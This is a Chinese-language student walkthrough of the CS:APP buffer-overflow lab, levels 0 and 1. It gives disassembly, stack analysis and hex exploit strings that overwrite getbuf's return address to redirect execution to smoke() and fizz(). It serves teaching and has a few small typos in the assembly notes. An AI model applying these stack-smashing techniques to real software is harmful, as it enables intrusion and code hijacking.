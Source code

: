 - LAB4-buflab

# 基本操作&小知识

* 设置用户名
```bash
$ ./markdown Lancer
> 0x17dab4ef
```

* 十六进制转ASCII码
```bash
$ ./hex2raw < exploit.txt > exploit-raw.txt
```

* 答案放在文件中运行bufbomb
```bash
$ ./bufbomb -u Lancer < exploit-raw.txt
```

* gdb x指令用法
格式：`x/<n/f/u>  <addr>`
n:是正整数，表示需要显示的内存单元的个数，即从当前地址向后显示n个内存单元的内容，一个内存单元的大小由第三个参数u定义。  
f:表示addr指向的内存内容的输出格式，s对应输出字符串，此处需特别注意输出整型数据的格式：  
x 按十六进制格式显示变量。  
d 按十进制格式显示变量。  
u 按十六进制格式显示无符号整型。  
o 按八进制格式显示变量。  
t 按二进制格式显示变量。  
a 按十六进制格式显示变量。  
c 按字符格式显示变量。  
f 按浮点数格式显示变量。  
u:就是指以多少个字节作为一个内存单元-unit,默认为4。当然u还可以用被一些字符表示，如b=1 byte, h=2 bytes,w=4 bytes,g=8 bytes。  
`<addr>`:表示内存地址。  


* push、pop、call、leave、ret
    * push: 栈指针先向下移，后复制到栈
    等价于
    ```assembly
    subl    $4, %esp
    movl    %ebp (%esp)
    ```
    * pop: 先取出数据，后栈指针向上移
    等价于
    ```assembly
    movl    (%esp), %ead
    addl    $4, %esp
    ```
    * call: 将返回地址（下一条指令的ip）压入栈，后跳转
    等价于
    ```assembly
    push    %eip
    jmp     08049262 <func>
    ```
    * leave: 将栈指针指向帧指针，后pop备份的原指针到%ebp
    等价于
    ```assembly
    mov     %ebp, %esp
    pop     %ebp
    ```
    * ret: 把原先压入栈的ip内容进行出栈，并送入ip中
    等价于
    ```assembly
    pop     ip      # 实际上不存在这样的指令，只是方便记忆
    ```

# 解题

## level0
```c
void test()
{
    int val;
    /* Put canary on stack to detect possible corruption */
    volatile int local = uniqueval();

    val = getbuf();     // 关键在这一行，怎么让getbuf()缓冲区溢出跳转到smoke()函数

    /* Check for corrupted stack */
    if (local != uniqueval()) {
        printf("Sabotaged!: the stack has been corrupted\n");
    }
    else if (val == cookie) {
        printf("Boom!: getbuf returned 0x%x\n", val);
        validate(3);
    } else {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
    }
```

```assembly
08049262 <getbuf>:
getbuf():
 8049262:	55                   	push   %ebp
 8049263:	89 e5                	mov    %esp,%ebp
 8049265:	83 ec 38             	sub    $0x38,%esp
 8049268:	8d 45 d8             	lea    -0x28(%ebp),%eax		# 缓冲区大小为0x28（40）
 804926b:	89 04 24             	mov    %eax,(%esp)
 804926e:	e8 bf f9 ff ff       	call   8048c32 <Gets>
 8049273:	b8 01 00 00 00       	mov    $0x1,%eax            # <- 执行到这里的栈
```
![stack_0x8049273](./image/stack_0x8049273.jpg)
```assembly
 8049278:	c9                   	leave  
 8049279:	c3                   	ret                         # <- 执行到这里时
```
![stack_0x8049279](./image/stack_0x8049279.jpg)

所以，要想跳转到`08048e0a <smoke>`，要先垫40 + 4 = 44字节，接下来的4个字节存要跳转的地址。  
因为采用的小端法，所以跳转地址还得反着写。  
还有一点值得注意，0a对应的ASCII码是`\n`换行，所以不能填。这里我们填`0a`的下一个数`0b`。  
答案如下，当然得用`./hex2raw`转换后才能用啦。
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 0b 8e 04 08     /* 45 ~ 48 跳转 */
```

## level1
```c
void fizz(int val){
    if (val == cookie) {        // val是？ cookie又是？
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```
```assembly
08048daf <fizz>:
fizz():
 8048daf:	55                   	push   %ebp
 8048db0:	89 e5                	mov    %esp,%ebp
 8048db2:	83 ec 18             	sub    $0x18,%esp
 8048db5:	8b 45 08             	mov    0x8(%ebp),%eax				# 0x8(%ebp)这个位置对应的输入的字符串的第52个字符
 8048db8:	3b 05 04 d1 04 08    	cmp    0x804d104,%eax				# 0x804d104存的cookie
 8048dbe:	75 26                	jne    8048de6 <fizz+0x37>
```
这题思路与上一题一样，首先从test()函数跳转到fizz()函数`08048daf <fizz>`。  
根据上面的代码，我们要让`val == cookie`。  
其中`val`对应的汇编代码里的`%eax`，而`%eax`又对应的输入的字符串的第52 ~ 55个字符。  
而`cookie`对应的汇编代码里的`0x804d104`，这个地址正是存的`cookie`。  
我设置的用户名Lancer对应的`cookie`是`0x17dab4ef`，填进去即可。  
（你问我为什么知道是第52 ~ 55个字符，我只能说这系列实验不仅考察看汇编代码的能力，还考察gdb调试的能力）  
答案如下，按顺序填补空缺，方便调试。
```
00 01 02 03 04 05 06 07
08 09 10 11 12 13 14 15
16 17 18 19 20 21 22 23
24 25 26 27 28 29 30 31
32 33 34 35 36 37 38 39
40 41 42 43 af 8d 04 08     /* 45 ~ 48 跳转 */
48 49 50 51 ef b4 da 17     /* 52 ~ 55 cookie */
56 57 58 59 60 61 62 63
```